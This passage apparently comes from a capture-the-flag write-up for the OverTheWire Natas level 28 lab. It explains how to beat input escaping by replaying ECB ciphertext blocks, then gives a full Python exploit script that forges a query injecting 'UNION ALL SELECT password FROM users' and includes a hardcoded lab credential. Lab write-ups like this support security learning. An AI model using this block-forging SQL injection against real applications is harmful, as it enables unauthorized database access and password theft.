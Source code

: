 Finally, to bypass the input sanitization, we could send the following query :

- Block 1 = "AAAAAAAAA'" (10 chars, last one is a single quote)
- Block 2 = "SQL Injection" (10 chars)
- Block x = "More SQL Injection" (10 chars)

And the returned query should contain :

- Block 1 = "AAAAAAAAA\\" (10 chars)
- Block 2 = "'SQL Injection" (note the **'** at the beginning)
- Block x = "More SQL Injection..."

Because the escaping charaters **\\**, should stay in the first block and the escaped characters **'** should overflow in the second block. Now we just need to get rid of the first block and replay the others.

Let's recap :

- We will generate a baseline by sending a query with **10** spaces
- We will send the SQLi prepended by **9** spaces and a **quote*
- We will compute the number of blocks containing our SQLi
- Then we forge a ciphertext using our baseline (empty string), the SQLi and the footer of the baseline

Now, the script :

```python
import requests
import urllib
import base64

url = "http://natas28.natas.labs.overthewire.org"
s = requests.Session()
s.auth = ('natas28', 'JWwR438wkgTsNKBbcJoowyysdM82YjeF')

# First we generate a baseline for the header/footer
data = {'query':10 * ' '}
r = s.post(url, data=data)
baseline = urllib.parse.unquote(r.url.split('=')[1])
baseline = base64.b64decode(baseline.encode('utf-8'))
header = baseline[:48]
footer = baseline[48:]

# We generate the ciphertext query and parse the result
sqli = 9 * " " + "' UNION ALL SELECT password FROM users;#"
data = {'query':sqli}
r = s.post(url, data=data)
exploit = urllib.parse.unquote(r.url.split('=')[1])
exploit = base64.b64decode(exploit.encode('utf-8'))

# We computer the size of our payload
nblocks = len(sqli) - 10
while nblocks % 16 != 0:
    nblocks += 1 
nblocks = int(nblocks / 16)

# Then, we forge the query
final = header + exploit[48:(48 + 16 * nblocks)] + footer
final_ciphertext = base64.b64encode(final)
search_url = "http://natas28.natas.labs.overthewire.org/search.php"
resp = s.get(search_url, params={"query":final_ciphertext})

print(resp.text)
```
